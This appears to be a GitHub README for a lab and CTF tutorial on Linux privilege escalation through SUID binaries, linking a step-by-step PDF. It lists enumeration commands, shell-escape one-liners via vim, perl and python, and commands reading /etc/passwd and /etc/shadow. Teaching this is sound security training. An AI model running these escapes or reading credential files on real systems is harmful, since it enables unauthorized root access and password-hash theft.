 Linux Privilege Escalation via SUID Binaries
This document provides hands-on examples of privilege escalation in Linux using SUID binaries such as vim, perl, and python. It includes enumeration steps (find, whoami, id, netstat), explains their purpose, and highlights safe exploitation methods useful in lab and CTF environments.


 Learning Objectives

- Identify and exploit SUID binaries for privilege escalation
- Confirm root access using system enumeration commands
- Read sensitive files like `/etc/shadow` post-exploitation
- Discover active services with `netstat`
- Practice safe lab-based privilege escalation

Key Commands

- `find / -perm -4000 2>/dev/null`
- `vim -c ':!/bin/sh'`
- `perl -e 'exec "/bin/sh";'`
- `python -c 'import os; os.system("/bin/sh")'`
- `whoami`, `id`
- `cat /etc/passwd`, `cat /etc/shadow`
- `netstat -tulnp`

- MOREOVER
-   step by step commands are given below the pdf


[Linux_PrivEsc_SUID_Albaloshi.pdf.pdf](https://github.com/user-attachments/files/21915347/Linux_PrivEsc_SUID_Albaloshi.pdf.pdf)


